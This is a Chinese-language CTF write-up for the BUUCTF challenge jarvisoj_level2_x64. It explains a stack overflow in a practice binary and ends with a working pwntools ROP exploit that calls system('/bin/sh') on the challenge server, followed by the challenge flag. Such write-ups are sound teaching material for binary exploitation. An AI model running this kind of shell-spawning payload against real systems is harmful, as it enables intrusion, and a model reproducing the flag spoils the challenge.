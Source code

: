 ------

### [jarvisoj_level2_x64](https://buuoj.cn/challenges#jarvisoj_level2_x64)

先`file ./level2_x64`查看文件类型再`checksec --file=./level2_x64`检查一下文件保护情况。

 ![](https://paper.tanyaodan.com/BUUCTF/jarvisoj_level2_x64/1.png)

用`IDA Pro 64bit`打开附件`level2_x64`，可以看到主函数的汇编语言代码如下，先是调用了一个名为`vulnerable_function()`的函数，然后系统调用`echo`语句输出了`Hello World!`。

![](https://paper.tanyaodan.com/BUUCTF/jarvisoj_level2_x64/2.png)

按`F5`进行反汇编后，可以看到`main()`函数的`C`语言代码如下：

![](https://paper.tanyaodan.com/BUUCTF/jarvisoj_level2_x64/3.png)

双击`vulnerable_function()`函数查看详情，可以看到该函数中有一个`char`型局部变量`buf`，其可用栈大小为`0x80`，但是`read()`函数限制从`stdin`中读入到`buf`的字节大小为`0x200`，显然存在栈溢出漏洞。

![](https://paper.tanyaodan.com/BUUCTF/jarvisoj_level2_x64/4.png)

双击`buf`变量查看其在函数栈中的情况，构造`payload`时可以先用`0x80`个字节占满`buf`变量，再用`0x8`个字节覆盖到栈帧`r`。

![](https://paper.tanyaodan.com/BUUCTF/jarvisoj_level2_x64/5.png)

在`Functions window`中可以看到有个`system()`函数，其地址为`0x4004C0`。

![](https://paper.tanyaodan.com/BUUCTF/jarvisoj_level2_x64/6.png)

使用`ROPgadget`可以查看到`/bin/sh`的地址为`0x600A90`。

```bash
ROPgadget --binary ./level2_x64 --string "/bin/sh"
```

![](https://paper.tanyaodan.com/BUUCTF/jarvisoj_level2_x64/7.png)

`X86_64`架构的函数参数分别保存在`RDI`、`RSI`、`RDX`、`RCX`、`R8`、`R9`，剩下的参数从右往左依次入栈。因此该程序函数调用的第一个参数由`rdi`寄存器传递，使用`ROPgadget`可以查看到`pop rdi`的地址为`0x4006B3`。

![](https://paper.tanyaodan.com/BUUCTF/jarvisoj_level2_x64/8.png)

编写 `Python`代码即可得到`flag{32d6e6d5-6d67-4486-b72b-5351bcfc4cc8}`。

```python
from pwn import *

context(arch='amd64', os='linux', log_level='debug')
io = remote('node4.buuoj.cn', 27561)
e = ELF('./level2_x64')
system_address = e.symbols['system'] # 0x4004C0
bin_sh_address = 0x600A90 # ROPgadget --binary ./level2_x64 --string "/bin/sh"
pop_rdi = 0x4006B3 # ROPgadget --binary ./level2_x64 --only "pop|ret"
payload = b'a'*0x80 + b'fuckpwn!'
payload += p64(pop_rdi) + p64(bin_sh_address) + p64(system_address)
io.sendlineafter(b'Input:\n', payload)
io.interactive()
```
